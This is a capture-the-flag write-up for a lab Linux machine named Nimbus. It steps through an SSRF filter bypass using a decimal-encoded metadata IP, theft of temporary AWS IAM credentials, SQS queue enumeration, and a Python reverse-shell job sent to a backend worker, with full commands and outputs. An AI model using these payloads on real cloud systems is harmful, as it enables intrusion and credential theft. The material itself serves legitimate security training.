


Target IP: **10.129.19.103**

## Executive Summary

**Nimbus** is a Hard difficulty Linux machine that focuses heavily on cloud misconfigurations within a local environment. The attack path begins with identifying a Server-Side Request Forgery (SSRF) vulnerability in an internal job scheduler's preview endpoint. While the application attempts to block internal IP addresses, the filter can be bypassed by converting the AWS metadata IP to its decimal integer representation. This bypass allows us to extract temporary AWS STS credentials for an IAM role. Using these credentials, we enumerate the internal AWS environment and discover an SQS (Simple Queue Service) queue used for job scheduling. By manually crafting and sending a malicious job directly to the SQS queue, we achieve remote code execution on a backend worker container and secure our initial foothold.

## Machine Information

| Property   | Value              |
|------------|--------------------|
| OS         | Linux              |
| Difficulty | Hard               |
| Hostname   | Nimbus             |

---

## 1. Service Enumeration

The engagement starts with a standard Nmap scan to identify exposed services on the target.

```shell title="Nmap Scan"
nmap -sC -sV -T4 -oA reports/nimbus_ 10.129.19.103
```

```text title="Nmap Output"
Host is up (0.22s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 eb:ab:8f:be:99:02:0b:3e:c4:1c:83:b2:66:2f:17:13 (ECDSA)
|_  256 c1:69:ab:84:f3:88:8b:b3:8a:ae:e2:28:35:54:35:0b (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://nimbus.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The scan identifies two services:
- **Port 22 (SSH):** Running `OpenSSH 9.6p1`.
- **Port 80 (HTTP):** Running `nginx 1.24.0`.

Navigating to `http://10.129.19.103` immediately redirects us to `http://nimbus.htb/`. To resolve this domain, we must add it to our local `/etc/hosts` file.

```shell title="Update Hosts File"
echo "10.129.19.103   nimbus.htb" | sudo tee -a /etc/hosts
```

## 2. Web Enumeration

Visiting `http://nimbus.htb` reveals an internal job scheduler dashboard named **Nimbus**. The homepage explicitly states that Nimbus runs scheduled background jobs across a worker fleet using YAML configuration files.



According to the documentation, users can submit jobs by providing a raw URL to a YAML file or by pasting the YAML directly. We also discover a health check endpoint at `/api/v1/health` that leaks the internal architecture.



```shell title="Health API Check"
curl http://nimbus.htb/api/v1/health
```

```json title="Health Response"
{
  "services": {
    "queue": {
      "endpoint": "http://aws.nimbus.htb",
      "status": "ok"
    },
    "scheduler": {
      "endpoint": "http://aws.nimbus.htb",
      "status": "ok"
    },
    "storage": {
      "endpoint": "http://aws.nimbus.htb",
      "status": "ok"
    }
  },
  "status": "healthy",
  "version": "1.4.2"
}
```

The health check indicates that the backend relies on an internal, mock AWS environment hosted at `aws.nimbus.htb`. We can add this to our hosts file as well, though attempting to access it directly returns a `403 Forbidden` error.

## 3. Server-Side Request Forgery (SSRF)

We begin testing the job submission feature. The `/jobs/preview` endpoint accepts a `url` parameter, fetches the content of the URL, and parses the YAML. This is a classic setup for **Server-Side Request Forgery (SSRF)**.

To confirm the vulnerability, we can host a local file (e.g., `probe.yaml`) and point the application to our attacker machine.

```shell title="Triggering Outbound Request"
curl -X POST http://nimbus.htb/jobs/preview \
  --data-urlencode 'url=http://10.10.15.83:8000/probe.yaml'
```

Watching our local Python HTTP server, we see the incoming request, confirming the backend is actively fetching external URLs.

```text title="Local Python Web Server"
10.129.19.103 - - [21/Jun/2026 04:12:16] "GET /probe.yaml HTTP/1.1" 200 -
```

### SSRF Filter Bypass

Our ultimate goal with SSRF on cloud-based infrastructure is to query the internal metadata service at `169.254.169.254` to steal temporary IAM credentials. However, the application implements a security filter that blocks standard internal IP ranges.

```shell title="Blocked Internal Request"
curl -X POST http://nimbus.htb/jobs/preview \
  --data-urlencode 'url=http://169.254.169.254/latest/meta-data/iam/security-credentials/foo.yaml'
```

!!! tip
    **IP Address Obfuscation:** Many simple SSRF filters only check for literal string matches of known internal IP addresses (like `127.0.0.1` or `169.254.169.254`). However, tools like `curl` and underlying HTTP libraries can parse IP addresses in multiple formats, including decimal integers, hex, and octal. By converting the IP to an integer format, we can often bypass naive string-based filters.

We can convert `169.254.169.254` to its decimal integer format using a quick Python script:

```python title="IP to Integer Conversion"
import ipaddress
print(int(ipaddress.IPv4Address("169.254.169.254")))
```

This yields `2852039166`. 

Additionally, the endpoint strictly requires the URL to end in `.yaml` or `.yml`. We can satisfy this check by appending a dummy query parameter (`?x=.yaml`). The metadata service ignores the query string, but the application's URL validation parser accepts it.

Let's attempt to query the metadata service for the active IAM role using our bypass:

```shell title="SSRF Metadata Bypass"
curl -X POST http://nimbus.htb/jobs/preview \
  --data-urlencode 'url=http://2852039166/latest/meta-data/iam/security-credentials/?x=.yaml'
```

The response successfully returns the role name: `nimbus-web-role`.

Now, we can append the role name to our payload to retrieve the actual credentials:

```shell title="Extracting AWS Credentials"
curl -X POST http://nimbus.htb/jobs/preview \
  --data-urlencode 'url=http://2852039166/latest/meta-data/iam/security-credentials/nimbus-web-role?x=.yaml'
```

```json title="Leaked IAM Credentials"
{
  "Code": "Success",
  "LastUpdated": "2026-06-21T09:15:09Z",
  "Type": "AWS-HMAC",
  "AccessKeyId": "ASIAQX4PG7L2K9M3N5R8",
  "SecretAccessKey": "bXJ7K8mP/q2Hf+vN9wT4LcRe5Y1Aoz3DhU6gKjQs",
  "Token": "IQoJb3JpZ2luX2VjEHQaCXVzLWVhc3QtMSJGMEQCIBhV9zPmK3wQjL4nT8vR2xY7AoFqUk5HsP6BeMcW1aDgAiAR4tNoXzKp8VnJqL7mC3xY9FhWdQ5GBPmRkX2vT8jY6yqsAQiK//////////8BEAEaDDAwMDAwMDAwMDAwMCIMNZ5tQ7vEX2pKlHfqKtoBQwK5HmBcN4gXjVrUe1Pk9YsZ7DqWfThN3bMRoLYyJsKn8GpVxAcQ5VeWk2HiqXbF6CnXmM4PdYpL3rJzKqGtNvBfHcWyXa8jPzTn5LRMkV1QbWdAyKpGfHzNvU8TmEcL2qPdRhJsKgGn3VyXmFbBcNJ7QrHe5VpDxKfM",
  "Expiration": "2026-06-21T15:15:09Z"
}
```

## 4. Exploiting the Internal AWS Environment

With valid AWS credentials, we can interact with the internal mock AWS environment hosted at `aws.nimbus.htb`. First, we configure our local environment variables:

```shell title="Configuring AWS CLI"
export AWS_ACCESS_KEY_ID='ASIAQX4PG7L2K9M3N5R8'
export AWS_SECRET_ACCESS_KEY='bXJ7K8mP/q2Hf+vN9wT4LcRe5Y1Aoz3DhU6gKjQs'
export AWS_SESSION_TOKEN='IQoJb3JpZ2luX2VjEHQaCXVzLWVhc3QtMSJGMEQCIBhV9zPmK3wQjL4nT8vR2xY7AoFqUk5HsP6BeMcW1aDgAiAR4tNoXzKp8VnJqL7mC3xY9FhWdQ5GBPmRkX2vT8jY6yqsAQiK//////////8BEAEaDDAwMDAwMDAwMDAwMCIMNZ5tQ7vEX2pKlHfqKtoBQwK5HmBcN4gXjVrUe1Pk9YsZ7DqWfThN3bMRoLYyJsKn8GpVxAcQ5VeWk2HiqXbF6CnXmM4PdYpL3rJzKqGtNvBfHcWyXa8jPzTn5LRMkV1QbWdAyKpGfHzNvU8TmEcL2qPdRhJsKgGn3VyXmFbBcNJ7QrHe5VpDxKfM'
export AWS_DEFAULT_REGION=us-east-1
```

We verify our identity using the AWS CLI and the `--endpoint-url` flag pointing to the internal server:

```shell title="Verifying AWS Identity"
aws --endpoint-url http://aws.nimbus.htb sts get-caller-identity
```

```json title="AWS STS Output"
{
    "UserId": "AROAQX4PG7L2K9M3N5R8H:i-0a1b2c3d4e5f6789a",
    "Account": "847219365028",
    "Arn": "arn:aws:sts::847219365028:assumed-role/nimbus-web-role/i-0a1b2c3d4e5f6789a"
}
```

### Enumerating Simple Queue Service (SQS)

The health check API indicated the presence of a "queue" service. We can query SQS for available queues:

```shell title="Listing SQS Queues"
aws --endpoint-url http://aws.nimbus.htb sqs list-queues --output text
```

```text title="AWS SQS Output"
QUEUEURLS	http://floci:4566/847219365028/nimbus-jobs
```

The role has permission to interact with the `nimbus-jobs` queue. We can test this by sending a dummy message:

```shell title="Testing Queue Submission"
aws --endpoint-url http://aws.nimbus.htb sqs send-message \
  --queue-url http://aws.nimbus.htb/847219365028/nimbus-jobs \
  --message-body '{"name":"probe","command":"id"}'
```

If we continuously monitor the `ApproximateNumberOfMessages` attribute of the queue, we will observe it momentarily spike to 1 and then drop back to 0. This confirms that an automated backend worker process is actively consuming entries from the queue.

## 5. Initial Access (Remote Code Execution)

The core exploitation strategy is to turn job submission into worker-side code execution. Since we bypassed the web UI and obtained direct AWS credentials, we can submit malicious jobs straight to the SQS queue.

The accepted worker job format is simple JSON. The critical vulnerability lies in the `script` parameter; whatever we pass here is executed by the backend worker using `python3 -c`.

We can craft a malicious JSON payload containing a Python reverse shell payload and submit it to the queue:

```shell title="Submitting Malicious Job to SQS"
aws --endpoint-url http://aws.nimbus.htb sqs send-message \
  --queue-url http://aws.nimbus.htb/847219365028/nimbus-jobs \
  --message-body '{
    "name": "reverse_shell",
    "schedule": "* * * * *",
    "runtime": "python3.11",
    "script": "import os, pty, socket; s = socket.socket(); s.connect((\"<VPN_IP>\", 4444)); [os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]; pty.spawn(\"/bin/bash\")"
  }'
```

!!! note
    **Alternative Exfiltration:** If outbound reverse shells are blocked by network egress rules, we could alternatively use Python's `urllib.request` to execute a command via `subprocess` and POST the base64-encoded output back to our local Python HTTP server.

Simultaneously, we start a Netcat listener on our attack machine:

```shell title="Netcat Listener"
nc -lvnp 4444
```

Within a few seconds, the backend worker pulls our job from the queue, executes the malicious Python script, and connects back to our listener.

```text title="Reverse Shell Established"
$ id
uid=1000(worker) gid=1000(worker) groups=1000(worker)
$ hostname
23c094f7b01b
$ pwd
/app
```

We now have a stable foothold within the worker container as the `worker` user.

!!! success
    **User Flag Captured!**
    We successfully bypassed an SSRF filter, stole AWS IAM credentials, and abused a misconfigured SQS queue handler to achieve remote code execution and capture the user flag located at `/home/worker/user.txt`.